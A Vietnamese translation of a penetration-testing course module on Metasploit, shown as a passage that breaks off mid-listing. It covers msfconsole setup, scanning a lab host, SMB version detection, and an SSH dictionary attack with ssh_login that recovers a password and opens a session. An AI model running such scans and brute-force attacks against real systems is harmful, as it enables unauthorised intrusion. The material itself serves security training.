

# The Metasploit Framework

# Metasploit Framework

---

Trong Learning Module này, chúng ta sẽ đề cập các Learning Unit sau:

- Làm quen với Metasploit
- Sử dụng Metasploit Payload
- Thực hiện Post-Exploitation với Metasploit
- Tự động hóa Metasploit

Khi chúng ta đã đi qua các Module trước, hẳn đã rõ rằng việc tìm kiếm, làm việc với, và sửa các public exploit là khó khăn. Chúng phải được chỉnh sửa để phù hợp với từng kịch bản và được kiểm tra mã độc. Mỗi exploit dùng một cú pháp dòng lệnh riêng và không có sự tiêu chuẩn hóa trong thực hành lập trình hoặc ngôn ngữ.

Ngoài ra, ngay cả trong những kịch bản tấn công cơ bản nhất, cũng có rất nhiều công cụ hậu khai thác, công cụ phụ trợ, và kỹ thuật tấn công cần cân nhắc.

Các exploit framework nhằm giải quyết một phần hoặc toàn bộ những vấn đề này. Mặc dù chúng có khác biệt đôi chút về hình thức và chức năng, mỗi framework đều hướng tới việc hợp nhất và tinh gọn quy trình khai thác bằng cách cung cấp nhiều exploit, đơn giản hóa cách sử dụng các exploit này, giúp việc di chuyển ngang (lateral movement) dễ hơn, và hỗ trợ quản lý hạ tầng đã bị xâm nhập. Phần lớn các framework này cung cấp khả năng payload động. Điều này có nghĩa là với mỗi exploit trong framework, chúng ta có thể chọn nhiều payload khác nhau để triển khai.

Trong vài năm qua, một số exploit và post-exploitation framework đã được phát triển, bao gồm Metasploit, Covenant, Cobalt Strike, và PowerShell Empire, mỗi framework cung cấp một phần hoặc toàn bộ các khả năng này.

Trong khi các framework như Cobalt Strike là sản phẩm thương mại, thì Metasploit Framework (MSF, hay đơn giản là Metasploit) là mã nguồn mở, được cập nhật thường xuyên, và là trọng tâm của Module này.

Metasploit Framework, được Rapid7 duy trì, được các tác giả của nó mô tả là “một nền tảng nâng cao để phát triển, kiểm thử, và sử dụng mã khai thác”. Dự án ban đầu bắt đầu như một trò chơi mạng di động và đã phát triển thành một công cụ mạnh mẽ cho kiểm thử xâm nhập, phát triển exploit, và nghiên cứu lỗ hổng. Framework này đã dần dần nhưng chắc chắn trở thành bộ sưu tập exploit miễn phí hàng đầu và là framework phát triển dành cho các kiểm toán viên an ninh. Metasploit thường xuyên được cập nhật với các exploit mới và liên tục được cải tiến và phát triển thêm bởi Rapid7 và cộng đồng an ninh.

Kali Linux bao gồm gói metasploit-framework, chứa các thành phần mã nguồn mở của dự án Metasploit. Người mới đến với Metasploit thường bị choáng ngợp bởi vô số tính năng và các trường hợp sử dụng khác nhau của công cụ này vì nó bao gồm các thành phần phục vụ thu thập thông tin, nghiên cứu và phát triển lỗ hổng, tấn công phía client, post-exploitation, và nhiều hơn nữa.

Với những khả năng áp đảo như vậy, rất dễ bị lạc trong Metasploit. May mắn là framework này được thiết kế tốt và cung cấp một giao diện thống nhất và hợp lý.

Trong Module này, chúng ta sẽ cung cấp một phần walkthrough về Metasploit Framework, bao gồm các tính năng và cách dùng cùng với một số giải thích về cơ chế bên trong của nó. Dù chúng ta tập trung vào Metasploit, chúng ta cũng sẽ thảo luận nhiều khái niệm đúng với các exploit framework khác. Mục tiêu chính của Module này là hiểu cách các framework này có thể hỗ trợ chúng ta trong một bài kiểm thử xâm nhập thực tế.

---

# 1. Làm quen với Metasploit

---

Learning Unit này bao gồm các Learning Objective sau:

- Thiết lập và điều hướng Metasploit
- Sử dụng các auxiliary module
- Tận dụng các exploit module

Trong Learning Unit này, chúng ta sẽ làm quen với Metasploit Framework (MSF). Chúng ta sẽ bắt đầu bằng việc thiết lập môi trường và điều hướng trong framework. Sau đó, chúng ta sẽ làm quen với hai loại module. Trong Metasploit, module là cách chính để tương tác với framework và được dùng để thực hiện các tác vụ như quét (scanning) hoặc khai thác (exploiting) một mục tiêu. Trước hết, chúng ta sẽ khám phá các auxiliary module của Metasploit và cách chúng ta có thể dùng chúng cho các tác vụ như liệt kê giao thức (protocol enumeration) và quét cổng (port scanning). Cuối cùng, chúng ta sẽ xem lại các exploit module có trong Metasploit.

---

## 1.1. Thiết lập và làm việc với MSF

---

Mặc dù Metasploit Framework được cài sẵn trên Kali Linux, cấu hình mặc định của nó không khởi động dịch vụ cơ sở dữ liệu. Việc sử dụng cơ sở dữ liệu không bắt buộc để chạy Metasploit, tuy nhiên có nhiều lý do thuyết phục để làm như vậy, chẳng hạn như lưu trữ thông tin về các máy mục tiêu và theo dõi các lần khai thác thành công. Metasploit sử dụng PostgreSQL làm dịch vụ cơ sở dữ liệu, và dịch vụ này không được kích hoạt cũng như không được bật khi khởi động trên Kali.

Chúng ta có thể khởi động dịch vụ cơ sở dữ liệu cũng như tạo và khởi tạo cơ sở dữ liệu MSF bằng lệnh msfdb init.

```
kali@kali:~$ sudo msfdb init
[+] Starting database
[+] Creating database user 'msf'
[+] Creating databases 'msf'
[+] Creating databases 'msf_test'
[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
[+] Creating initial database schema
```

                                            *Listing 1 - Tạo và khởi tạo cơ sở dữ liệu Metasploit*

Để bật dịch vụ cơ sở dữ liệu khi khởi động hệ thống, chúng ta có thể sử dụng systemctl.

```
kali@kali:~$ sudo systemctl enable postgresql
Synchronizing state of postgresql.service with SysV service script with /lib/systemd/systemd-sysv-install.
Executing: /lib/systemd/systemd-sysv-install enable postgresql
Created symlink /etc/systemd/system/multi-user.target.wants/postgresql.service → /lib/systemd/system/postgresql.service.
```

                                     *Listing 2 - Bật dịch vụ cơ sở dữ liệu postgresql khi khởi động*

Bây giờ, hãy khởi chạy giao diện dòng lệnh của Metasploit bằng msfconsole.3

```
kali@kali:~$ sudo msfconsole
...                                                                              
       =[ metasploit v6.2.20-dev                          ]
+ -- --=[ 2251 exploits - 1187 auxiliary - 399 post       ]
+ -- --=[ 951 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Use help <command> to learn more 
about any command
Metasploit Documentation: https://docs.metasploit.com/

msf6 >
```

                                               *Listing 3 - Khởi động Metasploit Framework*

Để ẩn banner và thông tin phiên bản khi khởi động, chúng ta có thể thêm tùy chọn -q vào lệnh msfconsole.

Khi giao diện dòng lệnh của Metasploit đã được khởi động, chúng ta có thể kiểm tra kết nối cơ sở dữ liệu bằng db_status.

```
msf6 > db_status
[*] Connected to msf. Connection type: postgresql.
```

                                                        *Listing 4 - Xác nhận kết nối cơ sở dữ liệu*

Listing 4 cho thấy cơ sở dữ liệu đã được kết nối và chúng ta đã sẵn sàng. Bây giờ, hãy làm quen với giao diện dòng lệnh của Metasploit và cách sử dụng nó.

Giao diện dòng lệnh của Metasploit cung cấp rất nhiều lệnh để điều hướng và sử dụng framework, được chia thành các danh mục. Các danh mục này bao gồm Core Commands, Module Commands, Job Commands, Resource Script Commands, Database Backend Commands, Credentials Backend Commands, và Developer Commands. Trong suốt Module này, chúng ta sẽ sử dụng các lệnh thuộc hầu hết các danh mục này.

Chúng ta có thể lấy danh sách tất cả các lệnh có sẵn bằng cách nhập help.

```
msf6 > help

Core Commands
=============

    Command       Description
    -------       -----------
    ?             Help menu
    ...

Module Commands
===============

    Command       Description
    -------       -----------
    ...
    search        Searches module names and descriptions
    show          Displays modules of a given type, or all modules
    use           Interact with a module by name or search term/index

    
Job Commands
============

    Command       Description
    -------       -----------
    ...

Resource Script Commands
========================

    Command       Description
    -------       -----------
    ...

Database Backend Commands
=========================

    Command           Description
    -------           -----------
    ...
    db_nmap           Executes nmap and records the output automatically
    ...
    hosts             List all hosts in the database
    loot              List all loot in the database
    notes             List all notes in the database
    services          List all services in the database
    vulns             List all vulnerabilities in the database
    workspace         Switch between database workspaces

Credentials Backend Commands
============================

    Command       Description
    -------       -----------
    creds         List all credentials in the database
    
Developer Commands
==================

    Command       Description
    -------       -----------
    ...
```

                                               *Listing 5 - Menu trợ giúp của các lệnh MSF*

Trước khi chúng ta bắt đầu thực hiện các thao tác trong Metasploit, hãy thảo luận một khái niệm quan trọng trước: workspaces. Giả sử chúng ta đã thực hiện một bài kiểm thử xâm nhập và Metasploit đã lưu toàn bộ thông tin về mục tiêu và hạ tầng của nó trong cơ sở dữ liệu. Khi chúng ta bắt đầu bài kiểm thử xâm nhập tiếp theo, thông tin này vẫn tồn tại trong cơ sở dữ liệu. Để giải quyết vấn đề này và tránh việc trộn lẫn kết quả của từng lần đánh giá với nhau, chúng ta có thể sử dụng workspaces.

Lệnh workspace của Metasploit liệt kê tất cả các workspace đã được tạo trước đó. Chúng ta có thể chuyển sang một workspace bằng cách thêm tên workspace vào lệnh. Để tạo một workspace mới, chúng ta cần cung cấp tên workspace làm đối số cho -a.

Hãy tạo một workspace có tên pen200, nơi chúng ta sẽ lưu trữ kết quả của phần này và phần tiếp theo.

```
msf6 > workspace
* default

msf6 > workspace -a pen200
[*] Added workspace: pen200
[*] Workspace: pen200
```

                                                         *Listing 6 - Tạo workspace pen200*

Sau khi được tạo, Metasploit sẽ sử dụng workspace này làm workspace hiện tại như được hiển thị trong listing 6.

Bây giờ, hãy đưa dữ liệu vào cơ sở dữ liệu và làm quen với một số Database Backend Commands. Để làm điều này, chúng ta sẽ quét BRUTE2 bằng db_nmap, đây là một wrapper để thực thi Nmap bên trong Metasploit và lưu các kết quả tìm được vào cơ sở dữ liệu. Lệnh này có cú pháp giống hệt với Nmap:

```
msf6 > db_nmap
[*] Usage: db_nmap [--save | [--help | -h]] [nmap options]

msf6 > db_nmap -A 192.168.50.202
[*] Nmap: Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-28 03:48 EDT
[*] Nmap: Nmap scan report for 192.168.50.202
[*] Nmap: Host is up (0.11s latency).
[*] Nmap: Not shown: 993 closed tcp ports (reset)
[*] Nmap: PORT     STATE SERVICE       VERSION
[*] Nmap: 21/tcp   open  ftp?
...
[*] Nmap: 135/tcp  open  msrpc         Microsoft Windows RPC
[*] Nmap: 139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp  open  microsoft-ds?
[*] Nmap: 3389/tcp open  ms-wbt-server Microsoft Terminal Services
...
[*] Nmap: 5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
...
[*] Nmap: 8000/tcp open  http          Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
...
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 67.72 seconds
```

                                              *Listing 7 - Sử dụng db_nmap để quét BRUTE2*

Listing 7 hiển thị kết quả của quá trình quét cổng được thực hiện bằng Nmap. Như đã đề cập trước đó, nếu dịch vụ cơ sở dữ liệu đang chạy, Metasploit sẽ ghi lại các phát hiện và thông tin về các host, dịch vụ, hoặc thông tin xác thực đã được phát hiện vào một cơ sở dữ liệu tiện lợi và dễ truy cập.

Để lấy danh sách tất cả các host đã được phát hiện cho đến thời điểm này, chúng ta có thể nhập hosts.

```
msf6 > hosts

Hosts
=====

address         mac  name  os_name       os_flavor  os_sp  purpose  info  comments
-------         ---  ----  -------       ---------  -----  -------  ----  --------
192.168.50.202             Windows 2016                    server
```

                                        *Listing 8 - Hiển thị tất cả các host đã được phát hiện*

Ngoài ra, chúng ta có thể nhập services để hiển thị các dịch vụ đã được phát hiện từ quá trình quét cổng. Chúng ta cũng có thể lọc theo một số cổng cụ thể bằng cách cung cấp số cổng làm đối số cho -p.

```
msf6 > services
Services
========

host            port  proto  name           state  info
----            ----  -----  ----           -----  ----
192.168.50.202  21    tcp    ftp            open
192.168.50.202  135   tcp    msrpc          open   Microsoft Windows RPC
192.168.50.202  139   tcp    netbios-ssn    open   Microsoft Windows netbios-ssn
192.168.50.202  445   tcp    microsoft-ds   open
192.168.50.202  3389  tcp    ms-wbt-server  open   Microsoft Terminal Services
192.168.50.202  5357  tcp    http           open   Microsoft HTTPAPI httpd 2.0 SSDP/UPnP
192.168.50.202  8000  tcp    http           open   Golang net/http server Go-IPFS json-rpc or InfluxDB API

msf6 > services -p 8000
Services
========

host            port  proto  name  state  info
----            ----  -----  ----  -----  ----
192.168.50.202  8000  tcp    http  open   Golang net/http server Go-IPFS json-rpc or InfluxDB API
```

                                    *Listing 9 - Hiển thị tất cả các dịch vụ đã được phát hiện*

Listing 9 cho thấy toàn bộ các dịch vụ đã được phát hiện cho đến thời điểm này. Vì chúng ta có thể lọc theo số cổng cụ thể, nên chúng ta có thể nhanh chóng xác định tất cả các host đang chạy một dịch vụ nhất định.

Khi làm việc trên một bài đánh giá với nhiều hệ thống mục tiêu, các Database Backend Commands là vô cùng giá trị trong việc xác định thông tin quan trọng và phát hiện các vector tấn công tiềm năng. Chúng ta cũng có thể sử dụng các kết quả được lưu trữ trong cơ sở dữ liệu làm đầu vào cho các module, điều mà chúng ta sẽ thảo luận trong phần tiếp theo.

Trước khi chuyển sang phần tiếp theo, hãy nhanh chóng ôn lại khái niệm module. Như đã nêu, module được sử dụng để thực hiện các tác vụ trong Metasploit như quét hoặc khai thác một mục tiêu. Framework này bao gồm vài nghìn module, được chia thành các danh mục.

Các danh mục này được hiển thị trong phần tóm tắt của màn hình splash, nhưng chúng ta cũng có thể xem chúng bằng lệnh show -h.

```
msf6 > show -h
[*] Valid parameters for the "show" command are: all, encoders, nops, exploits, payloads, auxiliary, post, plugins, info, options
[*] Additional module-specific parameters are: missing, advanced, evasion, targets, actions
msf6 > 
```

                                                      *Listing 10 - Cờ trợ giúp cho lệnh show*

Listing 10 hiển thị các danh mục module của Metasploit. Để kích hoạt một module, chúng ta cần nhập use cùng với tên module. Tất cả các module đều tuân theo một cú pháp phân cấp chung, được phân tách bằng dấu gạch chéo (loại module/hệ điều hành, nhà cung cấp, ứng dụng, thao tác, hoặc giao thức/tên module), giúp việc khám phá và sử dụng các module trở nên dễ dàng. Chúng ta sẽ bắt đầu bằng việc khám phá các auxiliary module trong phần tiếp theo và sau đó đi sâu vào các exploit module.

---

## 1.2. Auxiliary Module

---

Metasploit Framework bao gồm hàng trăm auxiliary module, cung cấp các chức năng như liệt kê giao thức (protocol enumeration), quét cổng (port scanning), fuzzing, sniffing, và nhiều hơn nữa. Auxiliary module hữu ích cho nhiều tác vụ, bao gồm thu thập thông tin (nằm dưới hệ phân cấp gather/), quét và liệt kê (enumeration) nhiều dịch vụ khác nhau (nằm dưới hệ phân cấp scanner/), v.v.

Có quá nhiều module để đề cập hết ở đây, nhưng chúng ta sẽ minh họa cú pháp và cách vận hành của hai auxiliary module rất phổ biến. Để liệt kê tất cả auxiliary module, chúng ta có thể chạy lệnh show auxiliary. Lệnh này sẽ hiển thị một danh sách rất dài của tất cả auxiliary module như được thấy trong phần output đã được rút gọn bên dưới:

```
msf6 > show auxiliary

Auxiliary
=========

   Name                                 Rank    Description
   ----                                 ----    -----------
   ...
   985   auxiliary/scanner/smb/impacket/dcomexec                                  2018-03-19       normal  No     DCOM Exec
   986   auxiliary/scanner/smb/impacket/secretsdump                                                normal  No     DCOM Exec
   987   auxiliary/scanner/smb/impacket/wmiexec                                   2018-03-19       normal  No     WMI Exec
   988   auxiliary/scanner/smb/pipe_auditor                                                        normal  No     SMB Session Pipe Auditor
   989   auxiliary/scanner/smb/pipe_dcerpc_auditor                                                 normal  No     SMB Session Pipe DCERPC Auditor
   990   auxiliary/scanner/smb/psexec_loggedin_users                                               normal  No     Microsoft Windows Authenticated Logged In Users Enumeration
   991   auxiliary/scanner/smb/smb_enum_gpp                                                        normal  No     SMB Group Policy Preference Saved Passwords Enumeration
   992   auxiliary/scanner/smb/smb_enumshares                                                      normal  No     SMB Share Enumeration
   993   auxiliary/scanner/smb/smb_enumusers                                                       normal  No     SMB User Enumeration (SAM EnumUsers)
   994   auxiliary/scanner/smb/smb_enumusers_domain                                                normal  No     SMB Domain User Enumeration
   995   auxiliary/scanner/smb/smb_login                                                           normal  No     SMB Login Check Scanner
   996   auxiliary/scanner/smb/smb_lookupsid                                                       normal  No     SMB SID User Enumeration (LookupSid)
   997   auxiliary/scanner/smb/smb_ms17_010                                                        normal  No     MS17-010 SMB RCE Detection
   998   auxiliary/scanner/smb/smb_uninit_cred                                                     normal  Yes    Samba _netr_ServerPasswordSet Uninitialized Credential State
   999   auxiliary/scanner/smb/smb_version                                                         normal  No     SMB Version Detection

   ...
```

                                                  *Listing 11 - Liệt kê tất cả auxiliary module*

Chúng ta có thể dùng search để giảm đáng kể lượng output này, lọc theo ứng dụng (app), loại (type), CVE ID, thao tác (operation), nền tảng (platform), và nhiều tiêu chí khác. Trong ví dụ đầu tiên này, chúng ta muốn lấy phiên bản SMB của hệ thống BRUTE2 đã được quét trước đó bằng cách sử dụng một Metasploit auxiliary module.

Để tìm đúng module, chúng ta có thể tìm kiếm tất cả SMB auxiliary module bằng cách nhập search `type:auxiliary smb`.

```
msf6 > search type:auxiliary smb

Matching Modules
================

   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   ...
   52  auxiliary/scanner/smb/smb_enumshares                                             normal  No     SMB Share Enumeration
   53  auxiliary/fuzzers/smb/smb_tree_connect_corrupt                                   normal  No     SMB Tree Connect Request Corruption
   54  auxiliary/fuzzers/smb/smb_tree_connect                                           normal  No     SMB Tree Connect Request Fuzzer
   55  auxiliary/scanner/smb/smb_enumusers                                              normal  No     SMB User Enumeration (SAM EnumUsers)
   56  auxiliary/scanner/smb/smb_version                                               normal  No     SMB Version Detection
   ...

Interact with a module by name or index. For example info 7, use 7 or use auxiliary/scanner/http/wordpress_pingback_access
```

                            *Listing 12 - Tìm kiếm tất cả SMB auxiliary module trong Metasploit*

Listing 12 cho chúng ta thấy tất cả SMB auxiliary module mà lệnh search đã xác định. Như đã nêu trước đó, để kích hoạt một module, chúng ta có thể nhập use theo sau là tên module, hoặc dùng chỉ số (index) được cung cấp từ kết quả search. Hãy dùng cách thứ hai để kích hoạt module auxiliary/scanner/smb/smb_version với chỉ số 56.

```
msf6 > use 56
msf6 auxiliary(scanner/smb/smb_version) >
```

                                              *Listing 13 - Kích hoạt module smb_version*

Listing 13 cho thấy chúng ta đã kích hoạt module smb_version, thể hiện qua dấu nhắc (prompt) của dòng lệnh.

Để lấy thông tin về module hiện đang được kích hoạt, chúng ta có thể nhập info.

```
msf6 auxiliary(scanner/smb/smb_version) > info

       Name: SMB Version Detection
     Module: auxiliary/scanner/smb/smb_version
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  hdm <x@hdm.io>
  Spencer McIntyre
  Christophe De La Fuente

Check supported:
  No

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
  THREADS  1                yes       The number of concurrent threads (max one per host)

Description:
  Fingerprint and display version information about SMB servers. 
  Protocol information and host operating system (if available) will 
  be reported. Host operating system detection requires the remote 
  server to support version 1 of the SMB protocol. Compression and 
  encryption capability negotiation is only present in version 3.1.1.
```

                                      *Listing 14 - Hiển thị thông tin về module smb_version*

Phần mô tả của module cung cấp thông tin về mục đích của module như được hiển thị trong listing 14.

Output cũng chứa Basic options, đây là các đối số (arguments) của module. Chúng ta cũng có thể hiển thị các tùy chọn của một module bằng cách nhập show options. Các tùy chọn có một cột tên là Required, chỉ ra liệu một giá trị có cần được thiết lập trước khi module có thể được chạy hay không. Chúng ta cần lưu ý rằng trong hầu hết các module, Metasploit sẽ tự đặt sẵn một số tùy chọn cho chúng ta.

```
msf6 auxiliary(scanner/smb/smb_version) > show options

Module options (auxiliary/scanner/smb/smb_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s)...
   THREADS  1                yes       The number of concurrent threads (max one per host)
```

                                   *Listing 15 - Hiển thị các tùy chọn của module smb_version*

Listing 15 cho thấy tùy chọn RHOSTS chưa có giá trị nhưng lại là bắt buộc đối với module.

*Để hiển thị tất cả các tùy chọn bắt buộc nhưng chưa được thiết lập, chúng ta có thể dùng lệnh `show missing`.*

Chúng ta có thể thêm hoặc gỡ giá trị khỏi các option bằng set và unset. Hãy đặt giá trị cho option RHOSTS thành IP của BRUTE2.

```
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.50.202
RHOSTS => 192.168.50.202
```

                                     *Listing 16 - Thiết lập giá trị của option RHOSTS thủ công*

Thay vì thiết lập giá trị thủ công, chúng ta cũng có thể thiết lập giá trị của RHOSTS theo cách tự động bằng cách tận dụng các kết quả trong cơ sở dữ liệu. Ví dụ, chúng ta có thể đặt RHOSTS thành tất cả các host đã được phát hiện có mở cổng 445 bằng cách nhập `services`, số cổng làm đối số cho `-p`, và `--rhosts` để thiết lập kết quả cho option này. Trước khi làm điều này, chúng ta sẽ unset giá trị hiện tại mà chúng ta đã thiết lập thủ công.

```
msf6 auxiliary(scanner/smb/smb_version) > unset RHOSTS
Unsetting RHOSTS...

msf6 auxiliary(scanner/smb/smb_version) > services -p 445 --rhosts
Services
========

host            port  proto  name          state  info
----            ----  -----  ----          -----  ----
192.168.50.202  445   tcp    microsoft-ds  open

RHOSTS => 192.168.50.202
```

           *Listing 17 - Thiết lập RHOSTS theo cách tự động thông qua kết quả trong cơ sở dữ liệu*

Listing 17 cho thấy Metasploit đã thiết lập giá trị cho option RHOSTS dựa trên các kết quả được lưu trong cơ sở dữ liệu, trong trường hợp của chúng ta là IP của BRUTE2.

Bây giờ, khi chúng ta đã thiết lập tất cả các tùy chọn bắt buộc, chúng ta có thể chạy module. Hãy thực hiện bằng cách nhập run.

```
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 192.168.50.202:445    - SMB Detected (versions:2, 3) (preferred dialect:SMB 3.1.1) (compression capabilities:LZNT1, Pattern_V1) (encryption capabilities:AES-256-GCM) (signatures:optional) (guid:{e09176d2-9a06-427d-9b70-f08719643f4d}) (authentication domain:BRUTE2)
[*] 192.168.50.202:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

                 *Listing 18 - Thực thi auxiliary module để phát hiện phiên bản SMB của một mục tiêu*

Chúng ta vừa thực thi module đầu tiên như được hiển thị trong Listing 18. Output cho thấy hệ thống mục tiêu hỗ trợ SMB phiên bản 2 và 3, và ưu tiên SMB 3.1.1.

Tiếp theo, hãy dùng lệnh vulns để xem liệu Metasploit có tự động phát hiện lỗ hổng dựa trên kết quả của module này hay không.

```
msf6 auxiliary(scanner/smb/smb_version) > vulns

Vulnerabilities
===============

Timestamp                Host            Name                         References
---------                ----            ----                         ----------
2022-07-28 10:17:41 UTC  192.168.50.202  SMB Signing Is Not Required  URL-https://support.microsoft.com/en-us/help/161372/how-to-enable-smb-signing-in-windows-nt,URL-https://support.microsoft.com/en-us/help/88
                                                                      7429/overview-of-server-message-block-signing
```

                                *Listing 19 - Hiển thị các lỗ hổng được Metasploit xác định*

Listing 19 cho thấy cơ sở dữ liệu của chúng ta có một mục lỗ hổng về SMB Signing Is Not Required và thêm thông tin liên quan. Đây là một cách tuyệt vời để nhanh chóng xác định lỗ hổng mà không cần dùng vulnerability scanner.

Tiếp theo, hãy dùng một module khác. Trong Module Password Attacks, chúng ta đã xác định được thông tin xác thực trên BRUTE bằng cách tận dụng một cuộc tấn công từ điển nhắm vào SSH. Thay vì Hydra, chúng ta cũng có thể dùng Metasploit để thực hiện cuộc tấn công này. Để bắt đầu, chúng ta sẽ tìm kiếm các SSH auxiliary module.

```
msf6 auxiliary(scanner/smb/smb_version) > search type:auxiliary ssh

Matching Modules
================

   #   Name                                                  Disclosure Date  Rank    Check  Description
   -   ----                                                  ---------------  ----    -----  -----------
   ...
   15  auxiliary/scanner/ssh/ssh_login                                        normal  No     SSH Login Check Scanner
   16  auxiliary/scanner/ssh/ssh_identify_pubkeys                             normal  No     SSH Public Key Acceptance Scanner
   17  auxiliary/scanner/ssh/ssh_login_pubkey                                 normal  No     SSH Public Key Login Scanner
   18  auxiliary/scanner/ssh/ssh_enumusers                                    normal  No     SSH Username Enumeration
   19  auxiliary/fuzzers/ssh/ssh_version_corrupt                              normal  No     SSH Version Corruption
   20  auxiliary/scanner/ssh/ssh_version                                      normal  No     SSH Version Scanner
   ...
```

                                           *Listing 20 - Hiển thị tất cả SSH auxiliary module*

Output liệt kê một auxiliary module có tên auxiliary/scanner/ssh/ssh_login với mô tả phù hợp. Chúng ta có thể kích hoạt nó bằng chỉ số 15. Khi module đã được kích hoạt, chúng ta có thể hiển thị các tùy chọn của nó.

```
msf6 auxiliary(scanner/smb/smb_version) > use 15

msf6 auxiliary(scanner/ssh/ssh_login) > show options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
...
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts
```

                                       *Listing 21 - Hiển thị các tùy chọn của module ssh_login*

Có nhiều tùy chọn cần thiết lập trong module này. May mắn là Metasploit đã thiết lập sẵn một vài tùy chọn cho chúng ta. Tương tự như các tùy chọn của Hydra, chúng ta có thể đặt một mật khẩu và user đơn lẻ, hoặc cung cấp các file chứa user, mật khẩu, hoặc cả hai.

Như trong ví dụ ở Password Attacks, chúng ta giả định rằng chúng ta đã xác định được username george. Chúng ta có thể chỉ định rockyou.txt cho tùy chọn PASS_FILE. Cuối cùng, chúng ta đặt RHOSTS thành 192.168.50.201 và RPORT thành 2222.

```
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
PASS_FILE => /usr/share/wordlists/rockyou.txt

msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME george
USERNAME => george

msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.50.201
RHOSTS => 192.168.50.201

msf6 auxiliary(scanner/ssh/ssh_login) > set RPORT 2222
RPORT => 2222
```

                                            *Listing 22 - Thiết lập các tùy chọn của ssh_login*

Bây giờ, tất cả các tùy chọn bắt buộc đã được thiết lập và chúng ta có thể chạy module bằng run.

```
msf6 auxiliary(scanner/ssh/ssh_login) > run

[*] 192.168.50.201:2222 - Starting bruteforce
[+] 192.168.50.201:2222 - Success: 'george:chocolate' 'uid=1001(george) gid=1001(george) groups=1001(george) Linux brute 5.15.0-37-generic #39-Ubuntu SMP Wed Jun 1 19:16:45 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (192.168.119.2:38329 -> 192.168.50.201:2222) at 2022-07-28 07:22:05 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

                                         *Listing 23 - Tấn công từ điển thành công với Metasploit*

Bằng cách thực hiện tấn công từ điển với auxiliary module đã kích hoạt, Metasploit có thể xác định đúng mật khẩu như được hiển thị trong Listing 23. Không giống Hydra, Metasploit không chỉ hiển thị thông tin xác thực hợp lệ, mà còn mở một session. Chúng ta sẽ khám phá session là gì và cách chúng ta có thể sử dụng chúng trong Learning Unit tiếp theo, nhưng hiện tại, chúng ta cần hiểu rằng Metasploit đã tự động cung cấp cho chúng ta quyền truy cập tương tác (interactive access) tới mục tiêu.

Tương tự như lỗ hổng được hiển thị bởi lệnh vulns, chúng ta có thể hiển thị tất cả thông tin xác thực hợp lệ mà chúng ta đã thu thập được cho đến thời điểm này bằng cách nhập creds.

```
msf6 auxiliary(scanner/ssh/ssh_login) > creds
Credentials
===========

host            origin          service       public  private    realm  private_type  JtR Format
